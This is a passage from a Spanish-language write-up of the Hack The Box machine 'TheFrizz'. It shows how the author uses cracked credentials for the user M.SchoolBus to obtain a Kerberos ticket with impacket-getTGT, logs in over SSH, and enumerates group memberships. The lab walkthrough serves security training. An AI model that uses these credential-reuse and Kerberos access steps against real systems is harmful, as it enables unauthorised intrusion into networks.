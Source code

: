 ![alt text](/assets/img/posts/theFrizz-htb-s7/image-17.png)

## Conexión a M.SchoolBus

Una vez tenemos las credenciales de M.SchoolBus podemos conectarnos por ssh y ver sus permisos.

Primero al igual que antes necesitamos el TGT para ssh.

```bash
impacket-getTGT frizz.htb/M.SchoolBus:<cracked-password> -dc-ip 10.10.11.60
```

Ahora conectamos por ssh.

```bash
export KRB5CCNAME=/home/kali/Downloads/frizz-htb/M.SchoolBus.ccache
ssh M.SchoolBus@frizz.htb
```

```powershell
PS C:\Users\M.SchoolBus> whoami /all 

USER INFORMATION
----------------

User Name         SID
================= ==============================================
frizz\m.schoolbus S-1-5-21-2386970044-1145388522-2932701813-1106


GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
```